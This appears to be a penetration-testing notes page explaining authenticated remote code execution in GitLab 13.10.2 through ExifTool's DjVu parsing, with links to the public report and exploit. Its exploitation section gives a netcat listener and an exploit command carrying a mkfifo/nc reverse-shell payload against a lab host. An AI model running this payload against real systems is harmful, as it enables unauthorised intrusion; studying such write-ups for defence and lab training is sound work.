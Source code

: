 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# 13.10.2 - Remote Code Execution (Authenticated)

When uploading image files, GitLab Workhorse passes any files with the extensions [jpg|jpeg|tiff](https://gitlab.com/gitlab-org/gitlab/-/blob/v13.10.2-ee/workhorse/internal/upload/exif/exif.go#L104) through to [ExifTool](https://exiftool.org/) to remove any non-whitelisted tags. An issue with this is that ExifTool will ignore the file extension and try to determine what the file is based on the content, allowing for any of the supported parsers to be hit instead of just JPEG and TIFF by just renaming the uploaded file.

One of the supported formats is [DjVu](https://github.com/exiftool/exiftool/blob/11.70/lib/Image/ExifTool/DjVu.pm). When parsing the DjVu annotation, the [tokens are evaled](https://github.com/exiftool/exiftool/blob/11.70/lib/Image/ExifTool/DjVu.pm#L233) to "convert C escape sequences". There is some validation to try and ensure that everything is properly escaped, but a backslash followed by a newline is correctly handled allowing the quotes to be closed and arbitrary perl inserted and evaluated.

{% hint style="info" %}
## Official GitLab Report

[https://hackerone.com/reports/1154542](https://hackerone.com/reports/1154542)
{% endhint %}

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/49951](https://www.exploit-db.com/exploits/49951)
{% endhint %}

## Exploitation

As this is authenticated remote code execution, we first need a valid username and password. In some instances, this would only work if we could obtain valid credentials through OSINT or a credential guessing attack. However, if we encounter a vulnerable version of GitLab that allows for self-registration, we can quickly sign up for an account and pull off the attack.

Start a [netcat.md](../../../../toolbox/tooling/post-exploitation/netcat.md "mention") listener:

{% code title="Command" %}
```bash
nc -lnvp 8443
```
{% endcode %}

Run exploit script from Exploit DB:

{% code title="Command" overflow="wrap" %}
```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u <USER> -p <PASS> -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 8443 >/tmp/f '
```
{% endcode %}

{% code title="Output" %}
```bash
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```
{% endcode %}
